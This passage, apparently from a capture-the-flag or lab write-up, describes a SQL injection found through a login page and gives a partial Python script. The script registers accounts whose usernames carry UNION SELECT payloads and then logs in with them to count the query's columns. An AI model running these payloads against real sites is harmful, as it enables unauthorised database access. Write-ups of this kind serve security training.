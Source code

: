 If we send the same request, we get an internal server error:

![Pasted image 20250805175853.png](../../IMAGES/Pasted%20image%2020250805175853.png)

This page is vulnerable to SQLI, seems like the login page points directly to the database and uses an unsafe sql query to retrieve the username once we retrieve the words count, we can begin exploitation.


# EXPLOITATION
---

We already know we need to register an username for each attempt we try to do, this is a big hassle to perform manually, we can do the same with the following python script:

```python
import requests
import sys
import random
import string
from colorama import Fore, Style, init

init(autoreset=True)  

def find_column(url):
    print(f"{Fore.CYAN}[*] Starting column count enumeration via SQLi on: {url}\n")
    
    base = "' UNION SELECT "
    for col_count in range(1, 10):
        payload = base + ",".join(str(i) for i in range(1, col_count + 1)) + "-- -"

        print(f"{Fore.YELLOW}[+] Testing column count: {col_count} with payload: {Fore.MAGENTA}{payload}")

        session = requests.Session()
        email = ''.join(random.choices(string.ascii_uppercase + string.digits, k=10)) + "@test.com"

        # Registration step
        register_data = {
            "username": payload,
            "password": "password123",
            "email": email
        }
        register_url = f"{url}/register"
        session.post(register_url, data=register_data)

        # Login step
        login_data = {
            "username": payload,
            "password": "password123"
        }
        login_url = f"{url}/login"
        session.post(login_url, data=login_data)
```